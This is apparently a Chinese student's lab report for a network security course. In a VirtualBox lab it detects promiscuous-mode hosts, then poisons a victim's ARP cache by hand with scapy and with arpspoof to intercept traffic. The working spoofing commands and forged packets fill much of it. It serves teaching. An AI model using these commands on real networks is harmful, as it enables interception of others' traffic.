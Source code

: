 # Chap 0x04
> author: 807544076

## 实验要求

* [x] 实验一：检测局域网中的异常终端

* [x] 实验二：手工单步“毒化”目标主机的 ARP 缓存

* [x] 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

* [ ] 实验四（可选）基于 scapy 编写 ARP 投毒劫持工具

## 实验环境
宿主机：Windows 10 家庭版
虚拟机：Virtualbox
* kali 2022
* windows xp
* debain 10

## 实验准备
攻击者机器安装 `Scapy`

```bash
sudo apt update && sudo apt install python3 python3-pip 

pip3 install scapy
```

搭建网络拓扑

![](./img/network-pic.png)

## 实验过程
### 1. 检测局域网中的异常终端

在受害者主机上查看 `混杂模式` 是否开启

```bash
ip link show eth0
```

![](./img/v-show.png)

未显示 `PROMISC` 字样，说明混杂模式未开启

在攻击者主机上使用 scapy 发送 promiscping

```bash
sudo scapy
>>> ptk = promiscping("172.16.111.106")
```

结果：未响应

![](./img/no-promisc.png)

在受害者主机上开启混杂模式
```bash
sudo ip link set eth0 promisc on

ip link show eth0
```

![](./img/promisc-on.png)

再次在 scapy 上发送，得到结果

![](./img/have-promisc.png)

最后关闭混杂模式

```bash
sudo ip link set eth0 promisc off
```

### 2. 手工单步“毒化”目标主机的 ARP 缓存

在攻击者主机上用 scapy 构造 arp 请求，获取网关 MAC 地址

```py
ab = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1,pdst="172.16.111.1")

ab.show()
```

![](./img/get-mac.png)

发送请求并从回应中提取出网关的 MAC 地址

```py
re = srp(ab, timeout=2)

gw_mac = re[0][0][1].hwsrc
```

![](./img/get_mac.png)

伪造网关的 ARP 响应包
```py
ap = Ether()/ARP(op=2,psrc="172.16.111.1",pdst="172.16.111.106",hwdst="08:00:27:45:b7:6b")

###[ Ethernet ]### 
  dst= 08:00:27:30:62:30
  src= 08:00:27:45:b7:6b # 攻击者 MAC
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= is-at
     hwsrc= 08:00:27:45:b7:6b
     psrc= 172.16.111.1 # 伪装成网关 IP
     hwdst= 08:00:27:45:b7:6b
     pdst= 172.16.111.106 # 发给受害者主机


sendp(ap)
```

![](./img/send-ap.png)

发送后查看受害者主机的 arp 缓存
```bash
ip neigh
```

![](./img/cheat.png)

发现网关 MAC 和攻击者主机 MAC 一致，投毒成功

接下来恢复受害者主机的 arp 缓存
用 scapy 构造

```py
rp=Ether()/ARP(op=2,psrc="172.16.111.1",hwsrc="08:00:27:a0:cc:a6",pdst="172.16.111.106")

sendp(rp)
```

再次查看受害者主机 arp 缓存
发现恢复成功

![](./img/restroe.png)

### 3. 使用自动化工具完成 ARP 投毒劫持实验

使用工具 `arpspoof`

对网关进行欺骗，伪装成受害者主机

```bash
sudo arpspoof -i eth0 -t 172.16.111.1 172.16.111.106
```

![](./img/a-g.png)

查看网关 arp 缓存，发现投毒成功

![](./img/gs.png)

再对受害者主机进行欺骗，伪装成网关

![](./img/a-v.png)

查看受害者主机 arp 缓存，发现投毒成功

![](./img/vs.png)

用受害者主机 ping 网关

![](./img/send.png)

在攻击者主机抓包，成功捕获

![](./img/success.png)


## 遇到的问题及解决
使用 scapy 报错 `operation not permitted`


解决：使用 sudo 提升权限

scapy 发出的包未到达受害者主机


解决：在 `ARP()` 前添加 `Ether()` 项即可

## 参考资料
[arpspoof 工具](https://developer.aliyun.com/article/666694)

[老师的实验教程](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
